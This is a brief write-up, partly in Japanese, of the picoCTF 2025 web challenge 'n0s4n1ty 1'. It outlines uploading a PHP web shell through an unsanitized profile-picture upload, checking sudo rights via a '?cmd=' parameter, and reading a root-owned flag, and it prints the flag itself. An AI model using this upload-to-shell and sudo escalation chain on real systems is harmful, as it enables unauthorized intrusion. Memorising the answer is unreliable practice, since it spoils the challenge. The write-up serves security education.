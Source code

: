 # n0s4n1ty 1

- **CTF:** picoCTF 2025
- **Category:** Web Exploitation
- **Difficulty:** Easy

### Description

A developer has added profile picture upload functionality to a website.
However, the implementation is flawed, and it presents an opportunity for you.
Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.

### Author
PRINCE NIYONSHUTI N.

### hiny
1. File upload was not sanitized
2. Whenever you get a shell on a remote machine, `check sudo -l`

### Write-up
**1.** 
  `shell.phpを送信`
**2.**
    `?cmd=sudo -l`を入力し，`Matching Defaults entries for www-data on challenge: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin User www-data may run the following commands on challenge: (ALL) NOPASSWD: ALL`
**3.**
  `?cmd=sudo /root/flag.txt`を入力flagを入手


### Flag
`FLAG : picoCTF{wh47_c4n_u_d0_wPHP_d698d800}`
